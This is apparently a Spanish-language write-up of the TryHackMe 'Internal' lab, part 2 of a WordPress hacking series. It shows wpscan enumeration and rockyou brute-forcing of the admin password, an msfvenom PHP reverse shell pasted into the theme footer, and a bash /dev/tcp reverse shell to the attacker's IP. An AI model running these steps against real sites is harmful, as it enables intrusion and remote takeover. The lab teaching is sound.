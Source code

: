 # Hacking en Entornos WordPress – Parte 2

Maquinas a utilizar **Kali Linux y Internal** [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)

<aside>
💡

**Continuación de Hacking en Entornos WordPress – Parte 1**

</aside>

- Utilizamos wpscan para hacer enumeración de usuarios y de Plugins. Importante al poner la ruta **no debemos poner** la parte de **wp-login.php.**
    
    ```bash
    wpscan --url [http://10.10.32.70/blog](./imagenes/http://10.10.32.70/blog) --enumerate u,vp
    ```
    
    ![image.png](./imagenes/image%2013.png)
    
    <aside>
    
    `-url http://10.10.32.70/blog` → Indica la URL del sitio web objetivo.
    
    `-enumerate u,vp` → Solicita enumerar:
    
    `u` (Usuarios): Obtendrá la lista de usuarios registrados en WordPress, lo que puede ayudar en pruebas de seguridad como ataques de fuerza bruta en credenciales.
    
    `vp` (Plugins vulnerables): Identificará los plugins instalados que tengan vulnerabilidades conocidas.
    
    </aside>
    
    No nos a encontró ningún Plugin vulnerable pero si un `usuario llamado **admin`.**
    

<aside>
💡

Nos falta la contraseña. en el caso de WordPress debemos utilizar para ello WPScan ya que es una herramienta creada específicamente para WordPress.

</aside>

- Hacemos un ataque de fuerza bruta para encontrar la contraseña.
    
    ```bash
    wpscan --url [http://10.10.11.251/blog](./imagenes/http://10.10.11.251/blog) --passwords /usr/share/wordlists/rockyou.txt --usernames admin
    ```
    
    ![image.png](./imagenes/image%2014.png)
    
    <aside>
    
    `-url http://10.10.11.251/blog` → Especifica la URL del sitio de WordPress a analizar.
    
    `-passwords /usr/share/wordlists/rockyou.txt` → Utiliza el archivo `rockyou.txt`, un popular diccionario de contraseñas, para intentar encontrar la contraseña correcta mediante fuerza bruta.
    
    `-usernames admin` → Establece "admin" como el usuario objetivo para el intento de acceso.
    
    </aside>
    
    Ya tenemos la contraseña que coincide con el usuario **admin**.
    
    - Usuario: admin
    - Contraseña: my2boys
    
    ![image.png](./imagenes/image%2015.png)
    
    ![image.png](./imagenes/image%2016.png)
    
    ![image.png](./imagenes/image%2017.png)
    

- Una vez aquí nuestro **objetivo** debe ser como **inyectar un código malicioso en WordPress**. Es decir como editar una platilla (pagina web) para añadir un código malicioso para poder adquirir ejecución remota de comandos en WordPress .
    - Nos movemos a la sección **Appearance → Theme Editor**
        
        ![image.png](./imagenes/image%2018.png)
        
        ![image.png](./imagenes/image%2019.png)
        
    
    - Hacemos un clip en Theme Footer
        
        ![image.png](./imagenes/image%2020.png)
        
        ![image.png](./imagenes/image%2021.png)
        
    - En caso de que haya código como es en mi caso lo eliminamos todo.
        
        ![image.png](./imagenes/image%2022.png)
        

- En un terminal creamos un con msfvenom.
    
    ```bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > wp.php 
    ```
    
    ![image.png](./imagenes/image%2023.png)
    
    Señalo nuestra IP que he obtenido con `ifconfig`
    
- Hacemos un cat de wp.php y copiamos su contenido.
    
    ```bash
    cat wp.php 
    ```
    
    ![image.png](./imagenes/image%2024.png)
    
- Pegamos el contenido del archivo malicioso en **Edit Theme** y pulsamos en el botón **Update File.**
    
    ![image.png](./imagenes/image%2025.png)
    

- En un terminal nos ponemos con netcat a escuchar el puerto 443
    
    ![image.png](./imagenes/image%2026.png)
    

- Refrescamos la pagina principal del WordPress **http://10.10.11.251/blog/** . (Recordemos que que el **Footer** que hemos modificado es básicamente la pagina principal de WordPress). Y ya tenemos acceso remoto a la maquina victima .
    
    ![image.png](./imagenes/image%2027.png)
    

- Establecemos una nueva conexión ya que como sabemos las conexiones creadas con msfvenom duran poco tiempo.

- En **https://www.revshells.com/**
    
    ![image.png](./imagenes/image%2028.png)
    
    `bash -c "sh -i >& /dev/tcp/10.21.166.149/444 0>&1"`
    
    <aside>
    👉
    
    **OJO,** cuidado con el tipo de comillas que se utilizan deben ser las rectas.
    
    </aside>
    
- Ponemos otro netcat a la escucha en el puerto 444
    
    ![image.png](./imagenes/image%2029.png)
    

- Pegamos el código en la conexión 443 y ya tendremos una conexión estable en el puerto 444.
    
    ![image.png](./imagenes/image%2030.png)
    
    ![image.png](./imagenes/image%2031.png)
    

<aside>
👉

En caso de que en WordPress exita la opcion de “File Upload” , solo deberíamos subir el archivo malicioso que hemos creado y después llamarlo desde la URL

</aside>